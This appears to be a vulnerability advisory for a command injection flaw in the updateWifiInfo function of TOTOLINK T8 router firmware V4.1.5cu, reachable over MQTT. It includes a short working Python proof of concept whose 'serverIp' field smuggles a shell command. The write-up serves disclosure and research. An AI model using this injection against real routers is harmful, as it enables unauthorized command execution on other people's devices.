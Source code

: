 # A command injection vulnerability in the function updateWifiInfo of TOTOLINK Technology routers T8 V4.1.5cu allows attackers to execute arbitrary commands via a crafted MQTT packet.

## Description

A command injection vulnerability in the function updateWifiInfo of TOTOLINK Technology routers T8 V4.1.5cu allows attackers to execute arbitrary commands via a crafted MQTT packet.

![image-20230116184500942](images/2.png)

## Firmware information

* Manufacturer's address:https://www.totolink.net/

![image-20230116184157081](images/1.png)

* Firmware download address : https://totolink.com.my/wp-content/uploads/2023/01/TOTOLINK_C8195R-1C_T8_IP04455_8197F_SPI_16M128M_V4.1.5cu.741_B20210916_ALL.zip

## Affected version

**Version: V4.1.5cu**

## Vulnerability details

The `T8` router opens the `MQTT` service

![image-20230116185238612](images/5.png)

In function `updateWifiInfo`,The "serverIp" parameter does not filter user input, which can cause command injection vulnerabilities



![image-20230116184932045](images/3.png)

POC

```
import paho.mqtt.client as mqtt

client = mqtt.Client()
client.connect("192.168.0.1",1883,60)
client.publish("totolink/router/updateWifiInfo", b'{"newMd5":"1","serverIp":";ls>/tmp/updateWifiInfo.txt;"}')
```

![image-20230116185057455](images/4.png)